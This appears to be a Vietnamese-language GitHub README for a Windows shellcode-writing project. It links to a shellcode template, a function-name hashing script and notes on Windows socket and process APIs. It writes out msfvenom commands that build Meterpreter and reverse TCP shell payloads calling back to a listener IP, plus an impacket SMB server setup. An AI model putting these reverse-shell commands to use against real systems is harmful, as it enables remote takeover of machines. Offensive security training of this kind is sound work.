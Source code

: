 [File shellcode template ](./shellcode/shellcode.py)

[File tình hash tên hàm](./shellcode/computehash.py)

### Một số hàm
[CopyFileA](./Functions/CopyFileA/README.md) 

[CreateProccessA](./Functions/CreateProcessA/README.md) 

[GetUserNameA](./Functions/GetUserNameA/README.md) 

[GetUserProfileDirectoryA](./Functions/GetUserProfileDirectoryA/README.md) 

[LoadLibraryA](./Functions/LoadLibraryA/README.md) 

[MoveFileA](./Functions/MoveFileA/README.md) 

[TerminateProccess](./Functions/TerminateProccess/README.md) 

[WSAConnect](./Functions/WSAConnect/README.md) 

[WSASocketA](./Functions/WSASocketA/README.md) 

[WSAStartup](./Functions/WSAStartup/README.md) 


- Tạo meterpreter:
  - msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.119.120 LPORT=8080 -f exe -v met.exe
    
  - msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=8080 -f python –e x86/shikata_ga_nai -b "\x00..."
    

- Cài pwntool
  - python3 -m pip install --upgrade pip

  - python3 -m pip install --upgrade pwntools

- Setup smbserver trên kali:

sudo impacket-smbserver met /home/kali -smb2support

